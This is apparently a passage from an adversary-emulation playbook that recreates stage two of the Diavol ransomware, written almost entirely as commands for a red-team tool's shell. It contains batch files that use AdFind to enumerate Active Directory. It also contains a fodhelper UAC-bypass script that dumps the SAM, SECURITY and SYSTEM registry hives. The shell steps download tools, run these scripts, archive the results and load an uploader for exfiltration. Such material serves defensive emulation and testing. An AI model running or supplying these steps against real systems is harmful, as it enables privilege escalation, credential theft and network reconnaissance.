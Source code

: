 ```
run rundll32.exe "%USERPROFILE%\AppData\Local\Temp\tfpkuengdlu.dll",EnterDll
controller --shutdown
```

### Diavol Stage 2
Create adf.bat and upload to VFS:/shared/threats/Diavol/adf.bat
```
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -f "(objectcategory=person)" > %USERPROFILE%\Desktop\Diavol\adfind\results\ad-users.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -f "objectcategory=computer" > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_computers.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -f "(objectcategory=organizationalUnit)" > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_ou.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -sc trustdmp > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_trustdmp.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -subnets -f (objectCategory=subnet) > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_subnet.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -f "(objectcategory=group)" > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_group.txt
%USERPROFILE%\Desktop\Diavol\adfind\AdFind.exe -gcb -sc trustdmp > %USERPROFILE%\Desktop\Diavol\adfind\results\ad_trustdmp2.txt
```
Create fodhelper_reg_hashes.bat  and upload to VFS:/shared/threats/Diavol/fodhelper_reg_hashes.bat
```
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "reg.exe save hklm\sam c:\ProgramData\sam.save" /f
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute" /f
fodhelper.exe

reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "reg.exe save hklm\security c:\ProgramData\security.save" /f
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute" /f
fodhelper.exe

reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "reg.exe save hklm\system c:\ProgramData\system.save" /f
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute" /f
fodhelper.exe

reg.exe delete hkcu\software\classes\ms-settings /f >nul 2>&1
```
In the shell:
```
loader --load run
run ipconfig /all
run net user USER /domain
run cmd.exe /c mkdir "%USERPROFILE%\Desktop\Diavol"
run cmd.exe /c mkdir "%USERPROFILE%\Desktop\Diavol\adfind"
run cmd.exe /c mkdir "%USERPROFILE%\Desktop\Diavol\adfind\results"
loader --load downloader
downloader --src "VFS:/shared/threats/Diavol/adf.bat" --dest "%USERPROFILE%\Desktop\Diavol\adfind\adf.bat"
downloader --src "https://www.joeware.net/downloads/files/AdFind.zip" --dest "%USERPROFILE%\Desktop\Diavol\adfind\AdFind.zip"
run cmd /c powershell -Command Expand-Archive %USERPROFILE%\Desktop\Diavol\adfind\AdFind.zip -DestinationPath %USERPROFILE%\Desktop\Diavol\adfind\
run cmd /c "start %USERPROFILE%\Desktop\Diavol\adfind\adf.bat"
loader --load downloader
downloader --src "VFS:/shared/threats/Diavol/fodhelper_reg_hashes.bat" --dest "%USERPROFILE%\Desktop\Diavol\fodhelper_reg_hashes.bat"
run cmd /c "start %USERPROFILE%\Desktop\Diavol\fodhelper_reg_hashes.bat"
run powershell Compress-Archive "%USERPROFILE%\Desktop\Diavol\adfind\results\" "%USERPROFILE%\Desktop\Diavol\adfind\adf.zip
loader --load uploader
```